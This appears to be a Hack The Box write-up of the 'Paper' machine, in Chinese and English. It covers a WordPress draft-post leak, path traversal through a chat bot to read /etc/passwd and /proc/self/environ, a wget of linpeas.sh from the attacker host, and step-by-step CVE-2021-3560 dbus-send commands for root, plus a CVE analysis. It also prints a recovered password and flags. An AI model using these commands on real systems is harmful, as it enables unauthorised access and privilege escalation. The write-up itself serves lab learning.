


# Paper

## Reconnaissance

### nmap result

```
# nmap -sV -A 10.10.11.143
```


- Access to target address


```
# curl -I 10.10.11.143
```

- 修改 hosts 內容，讓DNS Query 能找到```office.paper ```對應的IP address

```
# vim /etc/hosts
```

- 在試一次nmap，發現TraceRoute 的部分解析有點不同，可以解析出```office.paper```的 IP address.


- Access ```http://office.paper```


---

### Information Gathering From Web
- Check the content of this WebSite
    1. It's a blog site
    2. Tool: Wappalyzer 
        - PHP 7.2.24
        - WordPress: 5.2.3
        - CentOS
        - MySQL
        - OpenSSL

    
    
    3. Check Page SouceCode, Storage 
        - Page SourceCode

        

        - Cookie : empty
        - LocalStorage: empty
        - SessionStorage: empty
        
        


    4. Check the Domain URL and Network
        - URL:
            - Index: ```http://office.paper```
            - Article: ```http://office.paper/index.php/2021/06/19/feeling-alone/```
            - Comment: ```http://office.paper/index.php/2021/06/19/feeling-alone/#comment-4```
        - Load many CSS and JS file after access it
        
        
        - The Request and Response header
        
        


---

- 利用找到的資訊，進一步尋找攻擊方式

1. WordPress: 使用WordPress 寫的網站
    - 嘗試找出 WP-Admin Page
    - Tools: WPScan 找尋可用的弱點
- [WPSCAN](https://github.com/wpscanteam/wpscan.git)

```
# sudo apt-get install git gcc make ruby ruby-dev libcurl4-openssl-dev zlib1g-dev
# git clone https://github.com/wpscanteam/wpscan.git
```
- Scan the target
```
# wpscan --update
# wpscan --url http://office.paper
```


- Scan Result 依然是顯示了一些相關的資訊
- 但如果把 WordPress 5.2.3 放到 google 上搜尋弱點
- 很快地可以找到有個WebSite - WPScan
- 裡面有紀錄一洩 WordPress 的弱點，先從最早的弱點開始了解並且嘗試。
- [Vulnerabilities for WordPress 5.2.3](https://wpscan.com/wordpress/523)


---
## Foothold 

### WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts


#### Description 

    This vulnerability could allow an unauthenticated user to view private or draft posts due to an issue within WP_Query.

#### PoC

```
http://wordpress.local/?static=1&order=asc 
```

#### Link
- [Unauthenticated View Private/Draft Posts](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2)

---

### Exploit 

- 這個弱點的PoC 相對簡單，可以直接試試看能不能讀取到一些private 的post

```
# http://office.paper/?static=1
```
- 果然找到一個隱藏的文章


- 底下這裡有個secret URL
```
http://chat.office.paper/register/8qozr226AhkCHZdyY
```
- 應該是用來註冊```chat.office.paper```這個 domain 用的


```
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

- 連線過去發現也無法正常解析


- 修改 hosts 內容，讓DNS Query 能找到```chat.office.paper ```對應的IP address


```# vim /etc/hosts```


- 改完後，DNS 可以解析該位置，就是一個註冊帳號的page


- 先嘗試了解這個網站的用途，所以先註冊一個帳號試試看
- 註冊登入後:


- 一個 'read-only' 的 chatroom


- 這裡有個特別的留言，從這個'recyclops' 的留言可以知道
    1. Dwightschrute 是這個 chat site 的admin
    2. recyclops 是這個網站的機器人專門用來回應經常重複性留言


- 這則留言的後半段給出了重要的訊息
>  For security reasons, the access is limited to the Sales folder.
> 3. Files:
> eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just **'recyclops file test.txt'**
> 4. List:
> You can ask me to list the files
> 5. Time:
> You can ask me to what the time is
> eg: 'recyclops what time is it?' or just 'recyclops time'


- 也就是說透過上面的關鍵字的對話可以做到存取檔案的行為
- 可能在bot 後面會去執行某些指令
- 這樣的話可以朝command injection 試試看
- 或是試試看能不能讀取某些檔案

---

#### Inject Point
- 但因為chat room 是 read-only，要先找到能和recyclops 對話的地方

- Reply in Thread(read-only)


- Reply in Direct Message(Write permission available)


- help command 
- The description is similar to above, but there are more detail about how to use the command.


- After several try, I think the `recyclops` is a necessary prefix.

    - Ex. ask about time
    ```
    # recyclops what time is it
    ```
    
    
    - Ex. ask to list the directory
    ```
    # recyclops list sale
    ```
    
    
    - Ex. ask to get file
    ```
    # recyclops file test.txt
    ```
    
    
    
- 經過上面的嘗試，這裡的對話後面應該會對應到特定的指令，我認為可以先嘗試list 目錄下的檔案，之後再從get file 去取得檔案內容。


- 從上面的錯誤訊息可以知道直接去list 目錄一定會造成錯誤，他會把要list 的目標目錄直接append 到現在所在目錄後
    - Current Directory : ```/home/dwight/sales/```
- 所以要試試看用```../```來移動目錄位置 (**成功**)
    - ```# recyclops list ../```


- 只移動一層的狀況，看到```/home/dwight```下的檔案有一個 ```user.txt```
- 直接取得 ```user.txt```還是有權限的問題，會被'Access Denied'
    - ```# recyclops file ../user.txt```


- 但有趣的事情是，如果嘗試取得 ```/etc/passwd``` 卻成功了。
    - ```# recyclops file ../../../etc/passwd```


- 裡面我比較關注的兩個帳號:
    - root

    
    - dwight : 應該是有admin 權限的那個
    
    

- 走到這裡暫時卡住，所以去看了其他的資訊
---
#### Other Information
- Admin Page(Without permission)


- Cookie 


- LocalStorage


---

- 這裡之後是看了其他的 writeup 做出的。

#### /proc/self/environ
- ```environ``` 這個檔案，網路上的說明
```/proc/pid/environ 包含了可用進程環境變量的列表```
- [](https://www.itread01.com/content/1530439100.html)


- 也有許多文章都在做LFI 攻擊的時候嘗試去讀取該檔案，甚至是將惡意程式插入該檔案內，讓這個process 的自動採用該環境變數後會去執行惡意程式

- 而```/proc/self```比起 ```/proc/pid```，能夠更方便在不知道特定process pid 的情況下去取得該process 下的相關訊息

- [](https://blog.csdn.net/dillanzhou/article/details/82876575)


---

- 所以直接用目前的網站讀取```/proc/self/environ```

```
# recyclops file ../../../../../proc/self/environ
```


- Get credential 
```
# User: dwight
# Password: Queenofblad!23
```


### flag 
- Read ```user.txt```
- Get flag ```7deb6db0702cf993309228a00f62a566```



## Privilege Escalation 

### LinPEAS (Linux Privilege Escalation Awesome Scripts)


#### What's the script will do?

- Search for possible paths to escalate privileges on **Linux/ Unix/ MacOS**
- [The checks based on ```books.hacktricks.xyz```](https://book.hacktricks.xyz/linux-unix/privilege-escalation)


---

### Upload Escalation Script

- In Attack host
- Direct to linpeas file location
```
# python -m SimpleHTTPServer 9999
```
- In Victim's Host

```
# wget http://10.10.14.4:9999/linpeas.sh
```


- Execite it
```
# chmod +x linpeas.sh
# ./linpeas.sh
```


- Find the Vulnerablue CVE : CVE-2021-3560


### Exploit

1. Check the distribution type. 
```Using /etc/os-release file.```
2. Checks for installation of accountservice and gnome-control-center. (```In rhel/centos/fedora, uses rpm -qa and in debian/ubuntu distributions, it uses dpkg -l```).
3. If the installations are found, then the script checks of polkit version. (0.113 (or later) for rhel.centos,fedora and 0-105-26 for Debian/Ubuntu)

```
# rpm -qa | grep accounts
# rpm -qa | grep gnome-control
# rpm -qa | grep polkit
```


- Check the time during the dbus execute the command but not complete.

```
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:hacker5 string:"hacker4" int32:1 2>&1>/dev/null
```


- It will cost 0.056s in this command

- Creat new User (hacker5) and check with id command
- It may need to resend this command multiple times to create the user. 
```
# dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:hacker5 string:"hacker5" int32:1 & sleep 0.035s ; kill $!

# id hacker5 
```


- Change Password 
- It may need to resend this command multiple times to change the password. 
```
# dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string:'$5$oZVmoaj/pzspbK4A$ZJKfseEH0sQrwaOyEMywJ0XOfvbYJ47Iw7WQWDNVACC' string:hacker41QAZ & sleep 0.035s ; kill $!
```


- Login with hacker5 and get root permission
```
# su hacker5
# <password for hacker5> : hacker41QAZ
# whoami
# id
# sudo su
# cd /root
# ls
# cat root.txt
```


- Get root flag : 4595671cb0cd81a20470dc6beedb9ce0

---

## CVE ANALYSIS (CVE-2021-3560)

### Description

    polkit是預設安裝在很多Linux發行版上的系統服務。
    該漏洞能使非特權本地使用者獲得系統root許可權。
    
    
    According to Red Hat, 
    “Polkit stands for PolicyKit which is a framework that provides an authorization API used by privileged programs.” 
    Pkexec is a tool in PolicyKit 
    or polkit that allows a user to run a command as a different user. 
    This vulnerability tricks polkit into bypassing the credential checks for D-Bus requests, 
    elevating the privileges of the requestor to the root user.

- polkit is executed in text mode too while using text-mode session
- sample explain


- dbus: dbus is a message system for applications to talk to one another (known as IPC or interprocess communication). 
- This was developed as part of the freedesktop.org project. 
- A basic dbus command to list system services looks like this:

```
# dbus-send --system --dest=org.freedesktop.DBus --type=method_call --print-reply \
/org/freedesktop/DBus org.freedesktop.DBus.ListNames
```

- Now getting back to dbus here. It is an IPC agent which can help us to send commands or messages to other processes and communicate with them. 
- To perform operations, dbus has various service files configured that reference the absolute paths of executables or daemons that are to be triggered.


- This vulnerability which posted by Kevin Backhouse detected a vulnerability in polkit that can be triggered by running the **dbus-send** command but killing it while polkit is still executing it and execution isn’t complete.
- In this exploit, I will create an user without root permission, then assign a password for it.
- Both of those activies will complete by **dbus-send** command.

- 首先对dbus-send命令执行过程进行说明。


```
虚线上方的两个进程dbus-send和Authentication Agent是非特权用户进程。线下的那些是特权系统进程。中间是dbus-daemon，它处理所有的通信：其他四个进程通过发送 D-Bus 消息相互通信。下面是通过dbus-send创建新用户的事件顺序：

1. dbus-send要求accounts-daemon创建一个新用户。
2. accounts-daemon从dbus-send接收 D-Bus 消息。该消息包含唯一的连接名称，我们假设它是“:1.96”。此名称被dbus-daemon附加到消息中，且不能被伪造。
3. accounts-daemon向polkit询问连接:1.96 是否被授权以创建新用户。
4. polkit向dbus-daemon询问连接:1.96的 UID。
5. 如果连接:1.96 的 UID 为“0”，则 polkit 立即授权该请求。否则，它会向身份验证代理发送允许授权请求的管理员用户列表。
6. Authentication Agent打开一个对话框以从用户那里获取密码。
7. Authentication Agent将密码发送给 polkit。
8. polkit 将“是”回复发送回accounts-daemon。
9. accounts-daemon 创建新的用户帐户。

CVE-2021-3560漏洞位于上述事件序列的第四步。如果 polkit 向dbus-daemon请求总线:1.96 的 UID，但总线:1.96 不再存在，会发生什么？dbus-daemon正确处理这种情况并返回错误。但事实上 polkit 没有正确处理该错误，它没有拒绝请求，而是将请求视为来自 UID 0 的进程。换句话说，它立即授权请求。向dbus-demon请求总线UID的函数为polkit_system_bus_name_get_creds_sync。
```
### Sample Command for dbus exploit 

```
# dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:hacker5 string:"hacker5" int32:1 & sleep 0.035s ; kill $!

# id hacker5 
```
- Command Explain
    - system: sends message to the system bus
    - dest: name of the connection (interface) that receives the message
    - type: method_call means a system function with arguments being passed
    - print-reply: prints the output in human-readable format
    - /org/freedesktop/Accounts: This is the function that will be used
    - org.freedesktop.Accounts.CreateUser: Method that will be used. 
        - Here, create user method is used which will essentially create a new user with the name specified in string 1. String 2 is the name (“hacker5”) that will be visible in the system. 
    - int32 is an integer argument the method takes in that specifies the type of account encoded as an integer.

- [Configure XML file detail](https://cgit.freedesktop.org/accountsservice/tree/data/org.freedesktop.Accounts.xml)


---

## Reference 

- [Linux Privilege Escalation Awesome Script: ```linepeas.sh``` Download](https://github.com/carlospolop/PEASS-ng/releases/tag/20220220/linpeas.sh)


---

- [Writeups - 1](https://www.d3vyce.fr/writeup-paper-htb/)
- [Writeups - 2](https://systemweakness.com/paper-hack-the-box-walkthrough-7911cc622f01)
- [Writeups - 3](https://chowdera.com/2022/02/202202272037592530.html)

---

- [(CVE List)CVE-2019-17671_WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2)
- [(CVE Analysis)CVE-2019-17671_WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts](https://cloud.tencent.com/developer/article/1554955)
- [WPScan Tutorial](https://www.itread01.com/hkyxlhk.html)
---

- [(Linux)About ```/proc/self/environ```](https://www.itread01.com/content/1530439100.html)
- [(Linux)About ```/proc/self``` - 1](https://blog.csdn.net/dillanzhou/article/details/82876575)
    - 
- [(Linux)About ```/proc/self``` - 2](https://iter01.com/84117.html)

- [php lfi /proc/self/environ,PHP安全之LFI漏洞GetShell方法大阅兵](https://blog.csdn.net/weixin_39646628/article/details/116513732)
- [LFI通过proc/self/environ直接获取webshell](https://developer.aliyun.com/article/441861)
- [Metasploitable 學習筆記-DVWA LFI( Local File inclusion )/RFI (Remote File Inclusion)& Reverse Shell](https://medium.com/blacksecurity/metasploitable-dvwa-lfi-rfi-b4054760e1b9)
---

- [(Payload)CVE-2021-3560-Polkit-Privilege-Esclation PoC](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)
- [Original Research for CVE-2021-3560](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)
- [(CVE Analysis Detail)Analysis of CVE-2021-3560](https://www.hackingarticles.in/linux-privilege-escalation-polkit-cve-2021-3560/)
- [(CVE Analysis 1)Analysis of CVE-2021-3560](https://www.freebuf.com/vuls/281515.html)
- [(CVE Analysis 2)Analysis of CVE-2021-3560](https://www.gushiciku.cn/pl/guAE/zh-tw)
- [(Payload 2 )CVE-2021-3560-Polkit-Privilege-Esclation PoC](https://github.com/Almorabea/Polkit-exploit)

---


###### tags: `HackTheBox` `CVE-2019-17671` `CVE-2021-3560` `linux`